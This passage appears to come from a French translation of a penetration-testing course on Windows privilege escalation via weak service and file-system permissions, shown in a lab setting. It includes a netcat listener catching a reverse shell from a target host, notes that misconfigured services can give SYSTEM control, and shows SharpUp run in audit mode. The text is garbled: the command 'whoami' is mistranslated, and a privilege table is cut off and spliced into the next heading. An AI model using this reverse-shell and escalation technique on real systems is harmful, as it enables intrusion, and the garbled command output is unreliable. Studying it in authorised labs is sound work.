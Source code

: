 ```
dsgsec@htb[/htb]$ nc -lvnp 8443

écoute sur [tout] 8443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) Microsoft Corporation 2016. Tous les droits sont réservés.

C:\Windows\system32>whoami

qui suis je
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
INFORMATIONS SUR LES PRIVILÈGES
----------------------
Nom du privilège Description État
======================================== ========= ================================================= ======= ========
SeIncreaseQuotaPrivilege Adjust memorWeak Permissions
================

* * * * *

Les autorisations sur les systèmes Windows sont compliquées et difficiles à obtenir correctement. Un léger modification à un endroit peut introduire un défaut ailleurs. En tant que testeurs d'intrusion, nous devons comprendre le fonctionnement des autorisations dans Windows et les différentes manières dont les erreurs de configuration peuvent être exploitées pour élever les privilèges. Les failles liées aux autorisations abordées dans cette section sont relativement rares dans les applications logicielles proposées par les grands fournisseurs (mais sont observées de temps en temps), mais sont courantes dans les logiciels tiers de petits fournisseurs, les logiciels open source et les applications personnalisées. Les services s'installent généralement avec les privilèges SYSTEM, donc l'exploitation d'une faille liée aux autorisations de service peut souvent conduire à un contrôle complet sur le système cible. Quel que soit l'environnement, nous devons toujours vérifier les autorisations faibles et pouvoir le faire à la fois à l'aide d'outils et manuellement au cas où nous ne disposerions pas de nos outils facilement disponibles.

* * * * *

ACL permissives du système de fichiers
---------------------------

#### Exécution de SharpUp

Nous pouvons utiliser [SharpUp](https://github.com/GhostPack/SharpUp/) de la suite d'outils GhostPack pour vérifier les fichiers binaires de service souffrant d'ACL faibles.

Exécution de SharpUp

```
PS C:\htb> .\SharpUp.exe audit
